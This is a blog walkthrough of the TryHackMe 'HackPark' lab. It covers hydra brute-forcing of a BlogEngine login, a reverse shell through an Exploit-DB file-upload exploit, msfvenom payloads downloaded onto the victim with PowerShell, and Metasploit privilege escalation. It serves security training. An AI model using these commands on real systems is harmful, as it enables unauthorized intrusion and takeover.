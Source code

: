 ```yaml
---
title: "TryHackMe - HackPark - Walkthrough"
date: 2020-11-27T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - hackpark
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [HackPark][hackpark]. Let’s get started!

# Deploy Machine
First step is to deploy the machine! **NOTE:** This machine took about 3 minutes to fully boot up for me.

Then navigate to the website:

![h1](/assets/images/thm/hackpark/h1.webp)

The picture is of a clown from a pretty famous movie. You could do a reverse image search on this if you don’t know the name, but I happen to know the name so I will just answer the question.

# Using Hydra
If we read through the next section we are looking for a Login page. This can be found on the menu button in the top right, and clicking **LOG-IN**

We also need to figure out what type of request this form is making in order to answer the next question.

Let’s run `hydra` against the log-in page. First we need to gather some information:

**Username:** We will use `admin` in this case
**Wordlist:** `rockyou.txt`
**URL:** `http://10.10.253.80/Account/login.aspx`
**POST parameters:** Let’s get these!

In order to get the POST parameters, let’s login with just `admin` and a random password. (I used `test1`). This will give use a POST request sent to the server. Now, let’s inspect the page.

First we need to go to **Network**, and click on the POST request. On the right-hand side, you will see **Resend**. Click on this and select **Edit and Resend**.

![h2](/assets/images/thm/hackpark/h2.png)

From there, we can view the **Request Body** that is being sent to the server. Copy that whole thing and now we can configure our hydra attack.

![h3](/assets/images/thm/hackpark/h3.png)

In this **Request Body**, we need to look for our `admin` and `test1` login and password that we used. We will replace those with `^USER^` and `^PASS^`, respectively. Lastly, we need something to tell hydra when a login attempt **didn’t** work. If we look at the login page when we tried to login previously, we see a “Login failed”. We can use that as our third parameter.

Advertisement

This hydra command is formatted like this:

`hydra -l <user_we_want_to_use> -P <wordlist> <ip> <request_method> '<page_to_attack>:<request_body_to_send_with_parameters>:<failed_notification>'`

Our `hydra` command will be something close to the following:

```bash
hydra -l admin -P ../rockyou.txt 10.10.253.80  http-post-form '/Account/login.aspx:__VIEWSTATE=I3MnpaPIRlkVeH4Kqrvda70AlTlHWpL7b8f3WLwFpdvduY8pg%2FR1KTlj85jTd1HyGNjf62TlDb63aZEhX60AcedUrAFssR0%2F2yq9HgfwhFkNK8lJzqzskyZ52KDSjg5gjbOhz3ke5TnvkzukBIkvgzGzGBqzkiyHRR8bZ6xWltRXOBkS8GomTXvkwVCTpWlKEypbzaZOWME%2BQjrbYQXOktLM8AMOV636Owd%2BwLD6NDYBZYiJs9fLFWVD%2F8GjdQdZukSWV3nPr9SEwGwLhqs%2BgOZT4H8p4SzdXk4sLahpDwygg1HKrbWh5We5Zepu9MRaR87i5pgDFuR0ZVo5QDECFRj%2BAVNQ9sjMu5FiqK62eNJAYEmp&__EVENTVALIDATION=EdyUhLFMjYGwbQuLybR9Bk4empok7oCUscNJn6WrxKizHeT7YhJHGNy%2BXB0Qoq8%2FhKHgGQRO24pmf81EejDPhbhuLgjZSExvSE6MGh4wBW9TEtIufI5vsgCmblpg5xNIcTRefmM%2BCGKT2V68xMx4RTUZ77NQy4gJmmc7GQj5GAckN12s&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Letting hydra run, we get a successful attempt!

![h4](/assets/images/thm/hackpark/h4.webp)

# Compromise the Machine
Now that we are logged in as `admin`. Navigate to **Admin** > **About** to find the version number.

From here we can go to [Exploit Database][exdb] to find an exploit! There are a few listed, but let’s use this one: [Link][exploit]. (Find the CVE here).

Now reading through the exploit, we need to upload it onto the server. The exploit states how to do this:

>First, we set the TcpClient address and port within the method below to our .>attack host, who has a reverse tcp listener waiting for a connection. Next, we >upload this file through the file manager. In the current (3.3.6) version of >BlogEngine, this is done by editing a post and clicking on the icon that looks >like an open file in the toolbar. Note that this file must be uploaded as >PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory >off of the document root. The admin page that allows upload is: 
>
>`http://10.10.10.10/admin/app/editor/editpost.cshtml`
>
>Finally, the vulnerability is triggered by accessing the base URL for the blog >with a theme override specified like so:
>
>`http://10.10.10.10/?theme=../../App_Data/files`

Let’s follow those instructions! First, copy the “raw” over to your attack machine. Make sure to change the IP to your attack machine IP. (`tun0` if you run `ip a` or `ifconfig`). Also make sure to save the file as `PostView.ascx`.

Let’s go and upload the file. Navigate to **Content** > **Posts** > **Select Post** > **Open Folder Icon** > **Select exploit file** > **Save**

![h5](/assets/images/thm/hackpark/h5.webp)

Now let’s start a netcat listener for the shell to come back to. Open a new terminal windows on attack machine and type: `nc -nvlp 4445`

Navigate to the folder: `http://10.10.253.80/?theme=../../App_Data/files`

View your terminal, and we see a shell!

![h6](/assets/images/thm/hackpark/h6.png)

# Windows PrivEsc
Let’s generate a payload using `msfvenom` in order to get a meterpreter shell.

In a new terminal window generate the payload with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<THM_ip> LPORT=4446 -f exe -o win_shell.exe
```

Once your payload is generated, we need to upload it. In the folder where you created your payload, open a Python http server with: `python3 -m http.server 80`

Back in the victim machine shell, use the following command to download the payload on to the server:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/win_shell.exe' -OutFile 'c:\windows\temp\win_shell.exe'
```

Before we can execute the file, we need to have a listener open. For this we will use metasploit:

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4446
set payload windows/meterpreter/reverse_tcp
run
```

Now that our listener is running, execute the file: `win_shell.exe`

We have our meterpreter shell!

![h7](/assets/images/thm/hackpark/h7.png)

Let’s gather info:

`sysinfo` (OS answer)
`ps` (Abnormal service answer)

Navigate to `C:\Program Files (x86)\SystemScheduler\Events` to find the binary.

We found our binary, now lets create a payload under that binary:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_ip> LPORT=4447 -f exe -o Message.exe
```

Download that file onto the server using the same method we did previously:
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

Once that is complete, background your current metasploit session, and set the multi/handler options to utilize the new port 4447. Once you run that, a session should come up.

`getuid` shows that we are now `Administrator`

![h8](/assets/images/thm/hackpark/h8.png)

Let’s navigate to Jeff’s Desktop and get the flag!

![h9](/assets/images/thm/hackpark/h9.png)

And then get the root flag:

![h10](/assets/images/thm/hackpark/h10.png)

# PrivEsc without Metasploit
This section I will leave for you to do by yourself. It is similar to the Metasploit, but instead of using Metasploit, you will use netcat listener to get the shell instead of the Metasploit multi/handler. The room does a good job of walking you through the process. You will also use [winPEAS][winpeas] to enumerate the system.

Review
This room was a more intermediate level room that still walked you through some steps, but not everything. I liked that it didn’t hand hold throughout the entire process, and it still left some research, previous knowledge up to the person doing it. Overall, it was a great room that I highly recommend!

References
[TryHackMe][thm] | [HackPark Room][hackpark] | [Exploit Database][exdb] | [Exploit][exploit] | [winPEAS][winpeas]

[thm]: https://tryhackme.com
[hackpark]: https://tryhackme.com/why-subscribe?roomCode=hackpark
[exdb]: https://www.exploit-db.com
[exploit]: https://www.exploit-db.com/exploits/46353
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS